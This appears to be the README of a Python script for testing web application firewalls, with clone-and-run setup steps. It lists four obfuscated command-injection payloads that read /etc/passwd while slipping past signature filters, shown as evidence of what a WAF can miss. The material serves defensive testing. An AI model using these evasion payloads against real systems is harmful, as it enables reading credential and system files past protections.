# WAF Bypass script

WAF bypass is a simple script written in Python3 for testing Web Application Firewall. Before use, it is recommended to temporarily add the IP address from which testing is carried out to the whitelist.

## Do not break the law when using!

A script developed for internal needs, including for testing Nemesis WAF and Nemesida WAF Free, but you can use it to test any WAF.

![WAF Bypass Script](https://camo.githubusercontent.com/d5d3eae23ab2a3caa91b0e109f47c929256dcab0/68747470733a2f2f696d672e646566636f6e2e72752f73746f72652f323032302f30362f62326334396565633864636533663135366439306263643335613966323733392e706e67)

There are attacks for which it is impossible to create a signature, while not increasing the number of false positives. Therefore, it is absolutely normal that Nemesida WAF Free skips the attack, and the commercial version of Nemesida WAF Free blocks. For example, we can execute the <code>cat /etc/passwd</code> command in the following ways:
<pre>
%2f???%2f??t%20%2f???%2fp??s??
cat+/e't'c/pa'ss'wd
e'c'ho 'swd test pentest' |awk '{print "cat /etc/pas"$1}' | bash
ec'h'o 'cat /etc/examplewd' | sed 's/example/pass/g' | bash
</pre>

## How to run

<pre>
# mkdir /opt/waf-bypass/
# git clone https://github.com/nemesida-waf/waf_bypass.git /opt/waf-bypass/
# python3 -m pip install -r /opt/waf-bypass/requirements.txt
# cd /opt/waf-bypass/

# python3 /opt/waf-bypass/main.py
</pre>
